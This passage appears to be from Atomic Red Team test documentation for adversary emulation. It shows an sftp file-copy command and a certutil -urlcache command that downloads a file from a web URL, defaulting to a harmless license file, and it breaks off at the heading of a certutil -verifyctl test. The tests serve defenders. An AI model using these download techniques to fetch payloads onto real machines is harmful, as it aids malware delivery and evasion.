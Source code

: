 
#### Attack Commands: Run with `sh`! 


```sh
sftp #{username}@#{remote_host}:#{remote_file} #{local_path}
```






<br/>
<br/>

## Atomic Test #7 - certutil download (urlcache)
Use certutil -urlcache argument to download a file from the web. Note - /urlcache also works!

**Supported Platforms:** Windows


**auto_generated_guid:** dd3b61dd-7bbc-48cd-ab51-49ad1a776df0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | URL of file to copy | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt|
| local_path | Local path to place file | path | Atomic-license.txt|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmd /c certutil -urlcache -split -f #{remote_file} #{local_path}
```

#### Cleanup Commands:
```cmd
del #{local_path} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #8 - certutil download (verifyctl)
Use certutil -verifyctl argument to download a file from the web. Note - /verifyctl also works!

**Supported Platforms:** Windows


**auto_generated_guid:** ffd492e3-0455-4518-9fb1-46527c9f241b
